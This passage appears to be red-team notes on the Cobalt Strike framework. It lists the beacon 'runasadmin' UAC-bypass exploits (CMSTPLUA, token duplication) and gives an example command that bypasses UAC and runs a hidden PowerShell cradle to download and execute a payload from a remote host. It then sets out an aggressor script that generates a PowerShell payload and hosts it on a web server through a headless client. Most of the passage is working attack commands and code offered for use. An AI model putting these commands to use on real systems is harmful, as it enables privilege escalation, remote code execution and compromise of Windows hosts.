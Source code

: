 ## Runasadmin Command

With `runasadmin` command we can execute a high privilege command. Like `elevate` has some exploits.


```
beacon> runasadmin

Beacon Command Elevators
========================

    Exploit                         Description
    -------                         -----------
    uac-cmstplua                    Bypass UAC with CMSTPLUA COM interface
    uac-token-duplication           Bypass UAC with Token Duplication
```

Example:

```
beacon> runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/b'))"
```

# Headless Colbalt Strike

When the team server starts the listeners we had running are started, but any hosted files we had, this could be a problem during persistence mechanisms.

We can use a headless Cobalt strike client via the `agscript` utility, to execute an agressor script on start up.

```
agscript [host] [port] [user] [password]
```

Create a `host_payloads.cna` with the follwoing content:

```
# Connected and ready
on ready {

    # Generate payload
    $payload = artifact_payload("http", "powershell", "x64");

    # Host payload
    site_host("10.10.10.10", 80, "/a", $payload, "text/plain", "Auto Web Delivery (PowerShell)", false);

}
```

You can test the script with:

```
agscript 127.0.0.1 50050 headless password host_payloads.cna
```
